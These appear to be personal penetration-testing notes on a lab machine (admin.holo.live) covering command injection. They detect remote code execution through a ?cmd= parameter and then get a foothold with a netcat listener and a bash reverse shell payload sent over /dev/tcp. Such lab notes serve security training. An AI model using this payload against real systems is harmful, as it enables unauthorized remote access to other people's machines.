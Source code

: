 # Command Injection RCE

## OWASP

{% embed url="https://owasp.org/www-community/attacks/Command_Injection" %}
OWASP Reference
{% endembed %}

## Detecting RCE

PHP running on the site?

* Attempt RCE to see if PHP exec () or PHP passthru is being used to pass commands to the local system
* <mark style="color:yellow;">Simply add ?cmd=(command-here)</mark>
* <mark style="color:yellow;">This is even easier when you send the request to repeater and modify the request there</mark>

```
http://admin.holo.live/dashboard.php?cmd=id
```

Example Burp Request:

```
GET /dashboard.php?cmd=id HTTP/1.1
```

* Now, within the Response tab, utilize the search function for user data if necessary

## Exploitation

* Now that we confirmed that we have RCE, it is time to get a foothold on the target
* We need to make a reverse shell

{% embed url="https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjihNiUi6T6AhXxhYkEHQgKDvUQFnoECAQQAQ&url=https%3A%2F%2Frevshells.com%2F&usg=AOvVaw2kSgZf8n__rsePim87CfRv" %}

* Attempt the bash reverse shell first

Initiate a Netcat listener:

```
nc -lnvp 1337
```

In the Repeater tab of Burp:

```
GET /dashboard.php?cmd=bash -c 'exec bash -i &>/dev/tcp/tun0-IP/1337 <&1'
```

* Highlight the reverse shell payload and do CTRL+U to URL encode
  * <mark style="color:yellow;">Since it is a GET request, you absolutely need to URL encode!</mark>
* Send the request and see if you get a shell
